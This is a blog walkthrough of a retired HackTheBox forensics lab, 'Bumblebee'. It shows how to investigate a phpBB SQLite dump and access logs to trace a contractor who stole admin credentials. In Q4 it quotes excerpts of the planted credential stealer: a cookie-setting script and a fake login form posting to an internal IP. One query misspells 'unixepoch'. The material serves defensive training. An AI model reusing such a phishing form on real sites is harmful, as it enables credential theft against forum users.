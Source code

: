 ```yaml
---
layout: post
title:  "Full Meal: Bumblebee Sherlock"
date:   2025-05-31
author: C. Casquatch
comments: false
tags: ['sqlitebrowser', 'access logs', 'sqlite3', 'htb']
---
```


> RETIRED: Bumblebee Sherlock Walkthrough

**Note**: This is a casual walkthrough I put together because the original write-up was a bit overwhelming—especially because I am new to SQLite Browser. Hopefully, this helps others in the same boat!

---

## Scenario

> *"An external contractor has accessed the internal forum here at Forela via the Guest Wi-Fi, and they appear to have stolen credentials for the administrative user! We have attached some logs from the forum and a full database dump in sqlite3 format to help you in your investigation."*

---

## Getting Started

Install SQLite browser (on Parrot OS):
```
sudo apt install sqlitebrowser
```

Navigate to the folder where the `incident` folder is saved. This makes referencing files easier.

To access the SQLite database:
```
sqlite3 phpbb.sqlite3
```

You should see the `sqlite>` prompt.

![screenshot 1](/assets/images/bumblebee/screenshot1.png)


To view the schema of the `phpbb_users` table:
```
.schema phpbb_users
```

![screenshot 2](/assets/images/bumblebee/screenshot2.png)

---

## Q1: What was the username of the external contractor?

Run the following query:
```
SELECT user_id, username, user_email, user_lastvisit, user_ip FROM phpbb_users;
```

![screenshot 3](/assets/images/bumblebee/screenshot3.png)

To narrow it down further:
```
SELECT user_id, username, user_email, user_ip
FROM phpbb_users
WHERE username LIKE '%contractor%' OR user_email LIKE '%contractor%' OR user_ip = 'KNOWN_IP';
```

---

## Q2: What IP address did the contractor use?

This can be found from the same query above using the `user_ip` field.

---

## Q3: What is the post_id of the malicious post that the contractor made?

From Q1, let’s say the user ID is 52. Set display modes for easier output:
```
.headers on
.mode column
```

Then run:
```
SELECT post_id, post_subject, post_text
FROM phpbb_posts
WHERE poster_id = 52;
```

---

## Q4: What is the full URI that the credential stealer sends its data to?

From the `post_text`, we find HTML content.

![screenshot 4](/assets/images/bumblebee/screenshot4.png)

Export to HTML:
```
.headers on
.mode html
.output results.html
```

The file will be saved in the directory your terminal is pointed to.

![screenshot 5](/assets/images/bumblebee/screenshot5.png)

Look for this function in the HTML:

```
<script>
function setHidden() {
    const d = new Date();
    d.setTime(d.getTime() + (24 * 60 * 60 * 1000));
    let expires = "expires=" + d.toUTCString();
    document.cookie = "phpbb_token=1;" + expires + ";";

    const modal = document.getElementById('zbzbz1234');
    modal.classList.add("hidden");
}
...
</script>
```

Eventually you'll find this form:

```
<form action="http://10.10.0.78/update.php" method="post" id="login" ...>
  ...
</form>
```

Reset output to terminal:
```
.output stdout
```

---

## Q5: When did the contractor log into the forum as the administrator?

Answered after Q6 and Q8, using `LOG_ADMIN_AUTH_SUCCESS` (not the first instance).

---

## Q6: What is the password for the LDAP connection?

Query the `phpbb_config` table:
```
SELECT * FROM phpbb_config WHERE config_name LIKE 'ldap_%';
```

![screenshot 6](/assets/images/bumblebee/screenshot6.png)

---

## Q7: What is the user agent of the Administrator user?

After determining the admin's IP (e.g. `10.255.254.2`) from Q8, run:
```
grep -E '^10.255.254.2' access.log | head
```

Look for the last quoted string in the line. That’s your user agent.

![screenshot 8](/assets/images/bumblebee/screenshot8.png)

---

## Q8: What time did the contractor add themselves to the Administrator group?

Run this query:
```
.headers on
.mode column
SELECT
    log_id, 
    phpbb_users.username,
    log_ip,
    datetime(log_time, 'uniepoch'),
    log_operation,
    log_data
FROM
    phpbb_log
INNER JOIN phpbb_users ON phpbb_log.user_id = phpbb_users.user_id;
```

![screenshot 7](/assets/images/bumblebee/screenshot7.png)

Note the timestamp and IP address of the action.

---

## Q9: What time did the contractor download the database backup?

Use contractor’s IP (`10.10.0.78`) and date `26/Apr/2023`:
```
grep -E '^10.10.0.78' access.log | grep '26/Apr/2023:1' | tail
```

Explanation:
- `^` matches start of line.
- `:1` filters for times starting with 1 (10:00–19:59).
- `tail` gets the latest relevant lines.

![screenshot 9](/assets/images/bumblebee/screenshot9.png)

Note: The write-up indicates that you have to subtract an hour from the log time to get UTC. Not sure why—maybe just take their word for it.

---

## Q10: What was the size in bytes of the database backup as stated by access.log?

Same grep result from Q9. Look for the value next to the `200` HTTP status—it’s likely something like `34707`.

---

Enjoyed the lab? Confused by some things? Same here. Hopefully this helped you piece things together more easily.


<button onclick="history.back()">Go Back</button>
